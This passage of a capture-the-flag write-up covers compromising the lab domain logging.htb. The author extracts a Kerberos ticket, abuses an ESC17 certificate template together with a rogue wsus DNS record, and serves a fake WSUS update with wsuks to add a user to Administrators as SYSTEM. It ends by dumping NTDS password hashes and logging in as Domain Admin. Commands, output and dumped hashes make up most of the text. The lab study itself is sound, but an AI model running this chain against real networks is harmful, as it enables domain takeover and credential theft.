[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: HUraAe+aHynqrgYBuqeoR1/YbkHtOg2lF4BA4ndFAt0=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFyDCCBcSgAwIBBaEDAgEWooIEyjCCBMZhggTCMIIEvqADAgEFoQ0bC0xPR0dJTkcuSFRCoiAwHqADAgECoRcwFRsGa3JidGd0GwtMT0dHSU5HLkhUQqOCBIQwggSAoAMCARKhAwIBAqKCBHIEggRuYGHDTJ4vu0s+4IgneDmeEAMxAWNPmsJeaQNHU2QkmUGqmksj6B7rvW5qNV+gocNpok5KWIcBlA70+ntnEzhAPZUrAX/seP2jv8zeJwg6qDZaAOGq8pTnuDdQw178/szf2Qxixqv/BZ9zkLBEakNvvjDthqLt0KubASH/mijSXHMQfBARA+05rF9t/43XzsaWNGxjqpdvFsV8No8MP8AaiREjQMNE55DwIhOppP7HGtPK9BulO/GhY8CLw2ESWMSyFVlaypKVC4bNI+nhnFEwM/opb/H2y//t41xw0NDTVWHVnUMkuVGlQ68PqHvZx2CdeIwzWDP6k55oG/qLVsqW2ObNAyxrVhWOMS47e0i+7YAXiEtM8s8C2H3D5lOloW+zSI/6tv4tyKDGPqDqaIT70tIus5pqhAYIPBrVywr53PE2khGzua5AaHi7NOrKH2cPAxYtIYTEMZbXfM+GgH5CEzSYTFu4rM2P33J5hUBdkkdVJ608ImYBzCeE4LJff+B0NJrm5TVHuf/dQLSk6+jlQHnifpVEJOzPYBYSjEHURa6hi9jt+lMxrQ5qn/9gIA4ib4A+pgghYlyMXrDSRVzlZEI0e4n8/vug+KK0e8po8WhshuMKkbjTWTQXMePLXeJu7tbQ+GwOHdkhlCFipFDwHSQ788ik72zr6M49PhaAZfeoWDJp/4ASwaHHi9vOcSbx5mdPgXOrLDbL0R//BdAss1RIb+DXmKUFUYihd0XjAywQfmRI4G8GhZccVMy/ERdXNABHjkXv9bK0B0R5R71kR0FRoeiWmezZ8fnZFf36U9Ey5fvUAEZmnX4JbFz2zxVyYPnNrIALYdpwbrIJNA1jsvKcI2zg1YVBUNvDPuo8qWwKhYVLc/Bym3qUIZvF6gswK/5/AvLuEj/I0LPcin0XqTLzVyODzpWEAMiw0wfJKjrWhq1wP0OIFQJ2nrL97k3STTSdRwdN8poI4G5j2BBXkqlTixbHBjyiLCp2KNGoEFEpNPpH34W7Sr2Qmi01EZ37VyG12NanR5EdLLi6lizk6MvsfvG42xGpD+g0cJ0QHtXEid3qDxWvHcZzu1dJLiOXjN+OWSTgDCQ6a7SPWJj6tHvOZtLh5otej/ppQbs+uO6cOo6v2SEmUIww/VLt6MxFXuU54ExB/FwGK7xQOKcpdZwZoagGTmX7VB0648oBTYGCmk8QDzPB1/MX7fV12MgxJWDmkHQP15sMbQfdRTEhuQwXCrzWQ0KP/xxb+C6NLhRUoN6XPbrrGTjUY2iFkyTD+e++yH2BQonkBbSvpdoetEnbpjMaHhTTLXY48xLkTDnF5fan62KLq5wMEzV2nOYPOxkODeh+lxhWP1KhTCBLiFYluAHkjPNGfUtyFwPcU/HQpfHVw/lS1Lqrg9GOxs6kgS7mIU6OZBE9dmG0Fyw25aIpf9xnyddqoBicB7PmpSZXLJnn4KhQM3O5vrK28SoO1N7e2SNUgD6NYiqI590atqMY1oddYG4lGQkpGMs5o4HpMIHmoAMCAQCigd4Egdt9gdgwgdWggdIwgc8wgcygKzApoAMCARKhIgQgdh3yxUoFzDwbW1vRe2oFXRGTIut4/78fwAoRH8YeY6ihDRsLTE9HR0lORy5IVEKiGzAZoAMCAQGhEjAQGw5qYXlsZWUuY2xpZnRvbqMHAwUAYKEAAKURGA8yMDI2MTAwODAwMDMwMFqmERgPMjAyNjEwMDgwOTU5MTVapxEYDzIwMjYxMDE0MjM1OTE1WqgNGwtMT0dHSU5HLkhUQqkgMB6gAwIBAqEXMBUbBmtyYnRndBsLTE9HR0lORy5IVEI=
PS C:\ProgramData> 
```

I now have the base64 encoded kirbi

```python
❯❯❯ echo 'doIFyDCCBcSgAwIBBaEDAgEWooIEyjCCBMZhggTCMIIEvqADAgEFoQ0bC0xPR0dJTkcuSFRCoiAwHqADAgECoRcwFRsGa3JidGd0GwtMT0dHSU5HLkhUQqOCBIQwggSAoAMCARKhAwIBAqKCBHIEggRuYGHDTJ4vu0s+4IgneDmeEAMxAWNPmsJeaQNHU2QkmUGqmksj6B7rvW5qNV+gocNpok5KWIcBlA70+ntnEzhAPZUrAX/seP2jv8zeJwg6qDZaAOGq8pTnuDdQw178/szf2Qxixqv/BZ9zkLBEakNvvjDthqLt0KubASH/mijSXHMQfBARA+05rF9t/43XzsaWNGxjqpdvFsV8No8MP8AaiREjQMNE55DwIhOppP7HGtPK9BulO/GhY8CLw2ESWMSyFVlaypKVC4bNI+nhnFEwM/opb/H2y//t41xw0NDTVWHVnUMkuVGlQ68PqHvZx2CdeIwzWDP6k55oG/qLVsqW2ObNAyxrVhWOMS47e0i+7YAXiEtM8s8C2H3D5lOloW+zSI/6tv4tyKDGPqDqaIT70tIus5pqhAYIPBrVywr53PE2khGzua5AaHi7NOrKH2cPAxYtIYTEMZbXfM+GgH5CEzSYTFu4rM2P33J5hUBdkkdVJ608ImYBzCeE4LJff+B0NJrm5TVHuf/dQLSk6+jlQHnifpVEJOzPYBYSjEHURa6hi9jt+lMxrQ5qn/9gIA4ib4A+pgghYlyMXrDSRVzlZEI0e4n8/vug+KK0e8po8WhshuMKkbjTWTQXMePLXeJu7tbQ+GwOHdkhlCFipFDwHSQ788ik72zr6M49PhaAZfeoWDJp/4ASwaHHi9vOcSbx5mdPgXOrLDbL0R//BdAss1RIb+DXmKUFUYihd0XjAywQfmRI4G8GhZccVMy/ERdXNABHjkXv9bK0B0R5R71kR0FRoeiWmezZ8fnZFf36U9Ey5fvUAEZmnX4JbFz2zxVyYPnNrIALYdpwbrIJNA1jsvKcI2zg1YVBUNvDPuo8qWwKhYVLc/Bym3qUIZvF6gswK/5/AvLuEj/I0LPcin0XqTLzVyODzpWEAMiw0wfJKjrWhq1wP0OIFQJ2nrL97k3STTSdRwdN8poI4G5j2BBXkqlTixbHBjyiLCp2KNGoEFEpNPpH34W7Sr2Qmi01EZ37VyG12NanR5EdLLi6lizk6MvsfvG42xGpD+g0cJ0QHtXEid3qDxWvHcZzu1dJLiOXjN+OWSTgDCQ6a7SPWJj6tHvOZtLh5otej/ppQbs+uO6cOo6v2SEmUIww/VLt6MxFXuU54ExB/FwGK7xQOKcpdZwZoagGTmX7VB0648oBTYGCmk8QDzPB1/MX7fV12MgxJWDmkHQP15sMbQfdRTEhuQwXCrzWQ0KP/xxb+C6NLhRUoN6XPbrrGTjUY2iFkyTD+e++yH2BQonkBbSvpdoetEnbpjMaHhTTLXY48xLkTDnF5fan62KLq5wMEzV2nOYPOxkODeh+lxhWP1KhTCBLiFYluAHkjPNGfUtyFwPcU/HQpfHVw/lS1Lqrg9GOxs6kgS7mIU6OZBE9dmG0Fyw25aIpf9xnyddqoBicB7PmpSZXLJnn4KhQM3O5vrK28SoO1N7e2SNUgD6NYiqI590atqMY1oddYG4lGQkpGMs5o4HpMIHmoAMCAQCigd4Egdt9gdgwgdWggdIwgc8wgcygKzApoAMCARKhIgQgdh3yxUoFzDwbW1vRe2oFXRGTIut4/78fwAoRH8YeY6ihDRsLTE9HR0lORy5IVEKiGzAZoAMCAQGhEjAQGw5qYXlsZWUuY2xpZnRvbqMHAwUAYKEAAKURGA8yMDI2MTAwODAwMDMwMFqmERgPMjAyNjEwMDgwOTU5MTVapxEYDzIwMjYxMDE0MjM1OTE1WqgNGwtMT0dHSU5HLkhUQqkgMB6gAwIBAqEXMBUbBmtyYnRndBsLTE9HR0lORy5IVEI=' | base64 -d | tee jaylee.clifton.kirbi
```

Ill decode it then place the output in a file

```python
❯❯❯ ticketConverter.py jaylee.clifton.kirbi jaylee.clifton.ccache
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

Then ill convert it to a valid ccache

```python
faketime -f +7h nxc smb dc01.logging.htb --use-kcache
SMB         dc01.logging.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.logging.htb 445    DC01             [+] LOGGING.HTB\jaylee.clifton from ccache
```

And now using this ticket i can auth as this user

## ADCS enumeration

```python
faketime -f +7h certipy-ad find -u 'jaylee.clifton@logging.htb' -k -no-pass -dc-host dc01.logging.htb -dc-ip 10.129.245.130 -target-ip 10.129.245.130 -target dc01.logging.htb -stdout -enabled -vulnerable
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'logging-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'logging-DC01-CA'
[*] Checking web enrollment for CA 'logging-DC01-CA' @ 'DC01.logging.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : logging-DC01-CA
    DNS Name                            : DC01.logging.htb
    Certificate Subject                 : CN=logging-DC01-CA, DC=logging, DC=htb
    Certificate Serial Number           : 1E4F7EC9F5F17EA34E246D856D6C0C83
    Certificate Validity Start          : 2026-04-24 16:40:56+00:00
    Certificate Validity End            : 2126-04-24 16:50:56+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : LOGGING.HTB\Administrators
      Access Rights
        ManageCa                        : LOGGING.HTB\Administrators
                                          LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
        ManageCertificates              : LOGGING.HTB\Administrators
                                          LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
        Enroll                          : LOGGING.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : UpdateSrv
    Display Name                        : UpdateSrv
    Certificate Authorities             : logging-DC01-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2026-04-17T00:41:06+00:00
    Template Last Modified              : 2026-04-17T00:41:07+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : LOGGING.HTB\IT
                                          LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : LOGGING.HTB\Administrator
        Full Control Principals         : LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
        Write Owner Principals          : LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
        Write Dacl Principals           : LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
        Write Property Enroll           : LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
    [+] User Enrollable Principals      : LOGGING.HTB\IT
    [!] Vulnerabilities
      ESC17                             : Enrollee supplies subject and template allows server authentication.
    [*] Remarks
      ESC17                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```

## ESC17 and WSUS exploitation leads to SYSTEM command execution

https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc17-enrollee-supplied-subject-for-server-authentication

Ill use the wiki to guide me here

According to the wiki, its common to combine the WSUS service with ESC17, in this intsance there is a WSUS install as seen from nmap earlier

But according to the wiki it involves the wsus services in the request in the format `wsus.corp.local` 

And if i query dns using bloodyADs `get dnsDump` i can see the record doesnt exist

```python
❯❯❯ bloodyAD --host dc01.logging.htb -d logging.htb -k add dnsRecord wsus 10.10.14.61 
Clock skew detected. Adjusting local time by 6:59:59.340585. Retrying operation.
[+] wsus has been successfully added
```

First ill add the record with my IP address on it

```python
❯❯❯ faketime -f +7h certipy-ad req \
    -u 'jaylee.clifton@logging.htb' -k -no-pass \
    -dc-ip '10.129.245.130' -target 'dc01.logging.htb' \
    -ca 'logging-DC01-CA' -template 'UpdateSrv' \
    -dns 'wsus.logging.htb'
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 15
[*] Successfully requested certificate
[*] Got certificate with DNS Host Name 'wsus.logging.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'wsus.pfx'
[*] Wrote certificate and private key to 'wsus.pfx'
```

Ill then request the pfx cert

https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#wsus

```python
evil-winrm-py PS C:\ProgramData> reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
    WUServer    REG_SZ    https://wsus.logging.htb:8531

evil-winrm-py PS C:\ProgramData>

evil-winrm-py PS C:\ProgramData> Get-ItemProperty -Path hklm:\software\policies\microsoft\windows\windowsupdate\au -name "usewuserver"


UseWUServer  : 1
PSPath       : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\policies\microsoft\windows\windowsupdate\
               au
PSParentPath : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\policies\microsoft\windows\windowsupdate
PSChildName  : au
PSDrive      : HKLM
PSProvider   : Microsoft.PowerShell.Core\Registry


evil-winrm-py PS C:\ProgramData>
```

Using my winrm session i can see that the service is running on HTTPS, i can also see this when i open a http web server on port 8531 i get encrypted responses

From here there is two ways to exploit this, one is to abuse WSUS and NTLM relay or with WSUS code execution

https://blog.digitrace.de/2026/01/using-adcs-to-attack-https-enabled-wsus-clients/#extending-wsus-attacks-to-https

Im going to attempt to use the code execuction method using wsuks

https://github.com/NeffIsBack/wsuks

Ill use the wsuks tool to do this just like the above digitrace article

```python
❯❯❯ openssl pkcs12 -in wsus.pfx -out wsus.pem -nodes --passin pass:
```

Then just following the POC ill convert the PFX to a PEM, now this can be used in wsuks to execute a command as the administrator

```python
sudo wsuks --WSUS-Server wsus.logging.htb --tls-cert wsus.pem -I tun0 --serve-only -c '/accepteula /s powershell.exe "net localgroup Administrators wallace.everette /add"'

    __          __ _____  _    _  _  __  _____
    \ \        / // ____|| |  | || |/ / / ____|
     \ \  /\  / /| (___  | |  | || ' / | (___
      \ \/  \/ /  \___ \ | |  | ||  <   \___ \
       \  /\  /   ____) || |__| || . \  ____) |
        \/  \/   |_____/  \____/ |_|\_\|_____/

     Pentesting Tool for the WSUS MITM Attack
               Made by NeffIsBack
                 version: 1.2.2

[+] Command to execute: 
PsExec64.exe /accepteula /s powershell.exe "net localgroup Administrators wallace.everette /add"
[*] ===== Starting Web Server =====
[*] Using TLS certificate 'wsus.pem' for HTTPS WSUS Server
[*] Starting WSUS Server on 10.10.14.61:8531...
[*] Serving executable as KB: 9650056
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetConfig"
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetCookie"
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/SyncUpdates"
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetCookie"
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetExtendedUpdateInfo"
[+] Received GET request: /2cead5a0-cde3-4389-9e62-2903f783d585/PsExec64.exe
[+] GET request for exe: /2cead5a0-cde3-4389-9e62-2903f783d585/PsExec64.exe
```

Ill run the command, then the service will run and make a connection back, its important to make sure you have your own IP in your `/etc/hosts` in the format `<your IP> wsus.logging.htb`

After getting the connection it will have ran the command as SYSTEM

## Domain Admin

```python
nxc smb dc01.logging.htb -u 'wallace.everette' -p 'Welcome2026@'             
SMB         10.129.245.130  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.245.130  445    DC01             [+] logging.htb\wallace.everette:Welcome2026@ (Pwn3d!)
```

This user is now an Administrator

```python
❯❯❯ nxc smb dc01.logging.htb -u 'wallace.everette' -p 'Welcome2026@' --ntds    
SMB         10.129.245.130  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.245.130  445    DC01             [+] logging.htb\wallace.everette:Welcome2026@ (Pwn3d!)
SMB         10.129.245.130  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.245.130  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:a0c1d1bed9126632f5f1f2b3f790bdb5:::
SMB         10.129.245.130  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.245.130  445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:66ff41c8e28783a47fd7617f1f0125f0:::
SMB         10.129.245.130  445    DC01             logging.htb\svc_recovery:2104:aad3b435b51404eeaad3b435b51404ee:fbeb47c9c100020d3b9ebaf1ce839fb3:::
SMB         10.129.245.130  445    DC01             logging.htb\jaylee.clifton:2105:aad3b435b51404eeaad3b435b51404ee:1abff5519c569c11dc713706b4a15ae0:::
SMB         10.129.245.130  445    DC01             logging.htb\monique.chip:2106:aad3b435b51404eeaad3b435b51404ee:5595521651b7510b86438f7452606abf:::
SMB         10.129.245.130  445    DC01             logging.htb\kyson.abel:2107:aad3b435b51404eeaad3b435b51404ee:a50981f25606aeaa0d442f0fcbbce699:::
SMB         10.129.245.130  445    DC01             logging.htb\fable.milford:2108:aad3b435b51404eeaad3b435b51404ee:26a4b1da75600cdd7a3d77789d40a889:::
SMB         10.129.245.130  445    DC01             logging.htb\wellington.kylan:2109:aad3b435b51404eeaad3b435b51404ee:20a6efc7a20a14021a717fa06cd250f8:::
SMB         10.129.245.130  445    DC01             logging.htb\serina.philander:2110:aad3b435b51404eeaad3b435b51404ee:42961be97eb21e2fa7664b115e2ac3af:::
SMB         10.129.245.130  445    DC01             logging.htb\wallace.everette:2111:aad3b435b51404eeaad3b435b51404ee:40e28a964e1a6a6512d0ebc70f1ca811:::
SMB         10.129.245.130  445    DC01             logging.htb\toby.brynleigh:2112:aad3b435b51404eeaad3b435b51404ee:ac384497550a56937cd6edd784fb221c:::
SMB         10.129.245.130  445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:b4d05e08453f856b0ff4af1125157a84:::
SMB         10.129.245.130  445    DC01             msa_health$:2113:aad3b435b51404eeaad3b435b51404ee:603fc24ee01a9409f83c9d1d701485c5:::
SMB         10.129.245.130  445    DC01             [+] Dumped 14 NTDS hashes to /home/kali/.nxc/logs/ntds/DC01_10.129.245.130_2026-10-07_211450.ntds of which 12 were added to the database
SMB         10.129.245.130  445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.129.245.130  445    DC01             [*] grep -iv disabled /home/kali/.nxc/logs/ntds/DC01_10.129.245.130_2026-10-07_211450.ntds | cut -d ':' -f1
```



Then i can dump the NTDS

However the administrator is in protected users so ill auth with kerberos and get a TGT then get remote access that way

```python
❯❯❯ faketime -f +7h nxc smb dc01.logging.htb -u 'Administrator' -H 'a0c1d1bed9126632f5f1f2b3f790bdb5' -k --generate-tgt DA
SMB         dc01.logging.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.logging.htb 445    DC01             [+] logging.htb\Administrator:a0c1d1bed9126632f5f1f2b3f790bdb5 (Pwn3d!)
SMB         dc01.logging.htb 445    DC01             [+] TGT saved to: DA.ccache
SMB         dc01.logging.htb 445    DC01             [+] Run the following command to use the TGT: export KRB5CCNAME=DA.ccache

❯❯❯ export KRB5CCNAME=DA.ccache

❯❯❯ sudo nxc smb dc01.logging.htb --generate-krb5-file /etc/krb5.conf                                  
[sudo] password for kali: 
SMB         10.129.245.130  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.245.130  445    DC01             [+] krb5 conf saved to: /etc/krb5.conf
SMB         10.129.245.130  445    DC01             [+] Run the following command to use the conf file: export KRB5_CONFIG=/etc/krb5.conf

❯❯❯ export KRB5_CONFIG=/etc/krb5.conf
```

Then ill use the DA hash from ntds to get a valid TGT then export it, and finally setup a realm and export it using nxc

```python
❯❯❯ faketime -f +7h evil-winrm-py -k --no-pass -i dc01.logging.htb
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'dc01.logging.htb:5985' as 'Administrator@LOGGING.HTB'
evil-winrm-py PS C:\Users\Administrator\Documents>
```

Then i can auth as the domain admin after syncing with the clock

Domain Admin!

The alternative could have just been to auth as `toby.brynleig` since bloodhound says this user is also an Administrator

```python
evil-winrm-py PS C:\Users\toby.brynleigh\Desktop> dir


    Directory: C:\Users\toby.brynleigh\Desktop


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-ar---        10/7/2026   4:46 PM             34 root.txt                                                               


evil-winrm-py PS C:\Users\toby.brynleigh\Desktop>
```

Then i can get the root flag
